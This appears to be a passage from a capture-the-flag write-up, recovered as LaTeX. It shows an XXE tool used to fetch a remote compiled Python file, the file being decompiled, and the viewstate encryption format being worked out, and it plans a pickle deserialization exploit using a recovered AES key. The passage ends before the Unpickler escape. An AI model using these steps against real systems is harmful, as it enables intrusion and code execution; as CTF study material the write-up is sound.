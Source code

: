 \documentclass[a4paper]{article}
\begin{document}
\begin{lstlisting}[language=bash,caption={Retrieve remote file viewstate.pyc (see listing \ref{XXE-tool})},numbers=none,style=colortilde]
$ ./xxe.py "viewstate.pyc"  > viewstate.pyc
$ file viewstate.pyc
viewstate.pyc: ~python 2.7 byte-compiled~
\end{lstlisting}

The Python byte code can be decompiled using \href{https://github.com/gstarnberger/uncompyle/}{uncompyle byte-code decompiler}. The decompiled version allows to see a hardened Unpickler.


\begin{lstlisting}[caption={},numbers=none,style=colortilde]
$ ./uncompyler.py viewstate.pyc > viewstate.py
\end{lstlisting}


The viewstate.py also contains informations about the viewstate data format:
\begin{lstlisting}[caption={},numbers=none,style=colortilde]
view state format:
     - pickled dict
     - zlib compression
     - AES128 encryption
     - base64 encoding with padding removed
\end{lstlisting}

We tried to use the  web service but this web service was restricted to some local IPs:
\begin{lstlisting}[language=Python,caption={},numbers=none,style=colortilde]
    ADMIN_HOSTS = frozenset(['127.0.0.1', '::1', '10.0.1.200'])
# [...]
    @staticmethod
    def getMasterSecretKey(req, vs_data = None):
        assert isinstance(req, EZWebRequest)
        vs = App._load_session(vs_data)
        if vs.data.get('uid', -1) != 31337:
            raise SecurityError('not allowed from this uid')
        if req.env['REMOTE_ADDR'] not in App.ADMIN_HOSTS:
            raise SecurityError('not allowed from this IP address')
        return (vs, SecretStore.getMasterKey())
\end{lstlisting}


The aim of the the step 2 seems to be the escape of this hardened Unpickler. The AES key found in  can be used to encrypt a zlib compressed pickle exploit.

\subsection{Python hardened Unpickler escape}

The custom Unpickler found on previous step restricts the Pickle opcodes to:
\end{document}
